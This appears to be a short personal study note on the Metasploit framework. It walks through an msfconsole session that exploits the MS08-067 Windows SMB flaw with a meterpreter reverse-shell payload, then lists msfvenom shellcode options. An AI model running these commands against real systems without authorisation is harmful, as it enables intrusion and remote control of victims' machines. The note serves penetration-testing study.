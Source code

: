 ```yaml
---
tags:
  - offensive
MOC: "[[Offensive Security Concepts MOC]]"
---
```

-- --

Metasploit is an modular exploitation framework.

```shell
$ msfconsole
msf > search ms08-067
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > search payload
msf exploit(windows/smb/ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(windows/smb/ms08_067_netapi) > options
msf exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.182.154
msf exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.182.138
msf exploit(windows/smb/ms08_067_netapi) > exploit
```

# Generating Shellcode

The `msfvenom` module can generate shellcode.

- `-a`: The architecture of the target
- `-p`: the payload
- `-b`: bad characters
- `-f`: Output format
- `LPORT=`: The listening port number